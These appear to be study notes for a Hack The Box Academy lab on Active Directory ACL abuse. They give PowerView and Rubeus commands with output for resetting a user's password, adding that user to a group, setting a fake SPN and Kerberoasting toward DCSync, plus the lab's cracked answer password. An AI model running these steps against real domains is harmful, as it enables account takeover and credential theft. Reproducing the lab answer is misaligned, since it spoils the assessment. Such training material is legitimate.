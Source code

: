 # ACL Abuse Tactics

## Abusing ACLs

**Recap**

We have control ver wley, we know that we can chain attack and take control over adunn who can perform DCSync attack. This would give full control over the domain and allowing us to retrive NTLM password hash for all users in domain, then escalate privileges to Domain Admin and achive persistence. The method that we are going to use is

1. use wley to change password for damundsen
2. authenticate as damunbdsen and leverage genericall rights to add a user to Help Desk Level 1 group
3. Leverage GenericAll rights in Information Technology group to take control of adunn user

To perform the first step we can create a PSCredential object.

### **Change password for damundsen**

**Creating a PSCredential Object**

```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```

Next, we must create a [SecureString object](https://docs.microsoft.com/en-us/dotnet/api/system.security.securestring?view=net-6.0) which represents the password we want to set for the target user `damundsen`.

**Creating a SecureString Object**

```powershell-session
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

Finally, we'll use the [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) PowerView function to change the user's password.

**Changing the User's Password**

```powershell-session
PS C:\htb> cd C:\Tools\
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'damundsen'
VERBOSE: [Set-DomainUserPassword] Password for user 'damundsen' successfully reset
```

* \-Credential ->pass in credential object we created

### Add damundsen to Help Desk Level 1

Next, we authenticate as the `damundsen` user and add ourselves to the `Help Desk Level 1` group.

**Creating a SecureString Object using damundsen**

```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```

Next, we can use the [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) function to add ourselves to the target group.

**Adding damundsen to the Help Desk Level 1 Group**

```powershell-session
PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
```

**Confirming damundsen was Added to the Group**

```powershell-session
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName

MemberName
----------
busucher
spergazed

<SNIP>

damundsen
dpayne
```

Since we have `GenericAll` rights over this account, we can perform a targeted Kerberoasting attack by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN that we can then Kerberoast to obtain the TGS ticket

we must be a member of Information Technology group, since we added damundsen to Help Desk Level 1 group, we inherited rights via nested group membership.

### **Targetted Kerberoasting**

**Creating a Fake SPN**

```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=adunn)(name=adunn)(displayname=adunn))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'notahacker/LEGIT' for object 'adunn'
```

We created a fake SPN called 'notahacker/LEGIT'

**Kerberoasting with Rubeus**

```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap

[*] Hash : $krb5tgs$23$*adunn$INLANEFREIGHT.LOCAL$notahacker/LEGIT@INLANEFREIGHT.LOCAL*$ <SNIP>
```

last is to crack the hash usign hashcat. After we have a cleartext password we can authenticate as adunn and perform DCSync attack.

## Revert

### **Removing the Fake SPN from adunn's Account**

```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=adunn)(name=adunn)(displayname=adunn))))
VERBOSE: [Set-DomainObject] Clearing 'serviceprincipalname' for object 'adunn'
```

### **Removing damundsen from the Help Desk Level 1 Group**

```powershell-session
PS C:\htb> Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Remove-DomainGroupMember] Removing member 'damundsen' from group 'Help Desk Level 1'
True
```

**Confirming damundsen was Removed from the Group**

```powershell-session
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```

## Assessment

**Work through the examples in this section to gain a better understanding of ACL abuse and performing these skills hands-on. Set a fake SPN for the adunn account, Kerberoast the user, and crack the hash using Hashcat. Submit the account's cleartext password as your answer.**

<figure><img src="../../../.gitbook/assets/image (51).png" alt=""><figcaption><p>Change damundsens' password</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (24) (2).png" alt=""><figcaption><p>add damundsens to Help Desk Level 1</p></figcaption></figure>

Targetted kerberoasting

```
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

```
.\Rubeus.exe kerberoast /user:adunn /nowrap
```

<figure><img src="../../../.gitbook/assets/image (19) (2).png" alt=""><figcaption><p>adunn:SyncMaster757</p></figcaption></figure>
